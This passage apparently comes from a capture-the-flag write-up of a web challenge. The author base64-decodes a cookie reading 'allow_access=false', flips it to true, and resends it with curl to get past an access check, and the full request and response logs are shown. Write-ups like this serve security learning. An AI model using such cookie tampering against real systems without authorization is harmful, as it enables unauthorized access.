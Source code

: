 And here's the response.

```
*   Trying 192.81.210.234...
* TCP_NODELAY set
* Connected to 192.81.210.234 (192.81.210.234) port 10005 (#0)
> POST / HTTP/1.1
> Host: 192.81.210.234:10005
> User-Agent: curl/7.58.0
> Accept: */*
> Cookie: identify=YWxsb3dfYWNjZXNzPWZhbHNl
>
< HTTP/1.1 200 OK
< Date: Thu, 04 Jun 2020 09:29:08 GMT
< Server: Apache/2.4.38 (Debian)
< X-Powered-By: PHP/7.4.6
< X-Note: Your access has not been allowed. Please try again later.
< Content-Length: 0
< Content-Type: text/html; charset=UTF-8
<
* Connection #0 to host 192.81.210.234 left intact
```

I noticed that among the headers there is an `X-Note` header (which seems to be a custom HTTP header) that says "**Your access has not been allowed. Please try again later.**". 

In pursuit of allowing myself to the server, I examined the value of the cookie and found out that it was *base64-encoded*. 

![053c6cf25c41af2165b7f288619b699f.png](../../_resources/05a05c47083e44569938fbaee856460e.png)

I decoded the cookie and found this:

![caa5a9f746c5292c3509ab48478114be.png](../../_resources/3d7a0dfdadac48b0a4ac124883354d26.png)

So I modified the value into `allow_access=true`, encoded it back into *base64* string, and send it again to the server.

```
 curl -XPOST http://192.81.210.234:10005/ --cookie "identify=YWxsb3dfYWNjZXNzPXRydWU=" -v
```

Here's the response:

```
*   Trying 192.81.210.234...
* TCP_NODELAY set
* Connected to 192.81.210.234 (192.81.210.234) port 10005 (#0)
> POST / HTTP/1.1
> Host: 192.81.210.234:10005
> User-Agent: curl/7.58.0
> Accept: */*
> Cookie: identify=YWxsb3dfYWNjZXNzPXRydWU=
>
< HTTP/1.1 200 OK
< Date: Thu, 04 Jun 2020 09:54:18 GMT
< Server: Apache/2.4.38 (Debian)
< X-Powered-By: PHP/7.4.6
< X-Note: The requested resource is only available for Internal IP only.
< Content-Length: 0
< Content-Type: text/html; charset=UTF-8
<
* Connection #0 to host 192.81.210.234 left intact

```
